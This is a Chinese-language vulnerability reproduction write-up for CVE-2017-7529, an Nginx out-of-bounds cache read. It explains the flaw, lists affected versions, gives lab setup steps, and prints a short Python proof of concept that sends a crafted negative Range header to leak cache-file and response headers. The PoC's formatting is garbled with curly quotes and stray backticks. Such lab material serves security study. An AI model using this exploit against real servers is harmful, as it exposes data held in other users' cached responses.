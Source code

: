 ```yaml
---
title: （CVE-2017-7529）Nginx 越界读取缓存漏洞
id: zhfly3047
---
```


# （CVE-2017-7529）Nginx 越界读取缓存漏洞

## 一、漏洞简介

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

## 二、漏洞影响

*   Nginx Nginx:1.13.2
*   Nginx Nginx:1.13.1
*   Nginx Nginx:1.13.0
*   Nginx Nginx:1.11.13
*   Nginx Nginx:1.11.12

## 三、复现过程

运行测试环境：

```
docker-compose up -d 
```

访问`http://www.0-sec.org:8080/`，即可查看到Nginx默认页面，这个页面实际上是反向代理的8081端口的内容。

调用`python3 poc.py http://www.0-sec.org:8080/`，读取返回结果

![image](../img/2ee005ce93fcda1c316a3b1c32b89e0b.png)

可见，越界读取到了位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

如果读取有误，请调整poc.py中的偏移地址（605）。

### poc

```
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:

print("%s url" % (sys.argv[0]))

print(“eg: python %s [http://your-ip:8080/](http://your-ip:8080/)” % (sys.argv[0]))

sys.exit()

headers = {

‘User-Agent’: “Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240”

}

offset = 605

url = sys.argv[1]

file_len = len(requests.get(url, headers=headers).content)

n = file_len + offset

headers[‘Range’] = “bytes=-%d,-%d” % (

n, 0x8000000000000000 - n) `r = requests.get(url, headers=headers)

print(r.text)` 
```

## 参考链接

> https://vulhub.org/#/environments/nginx/CVE-2017-7529/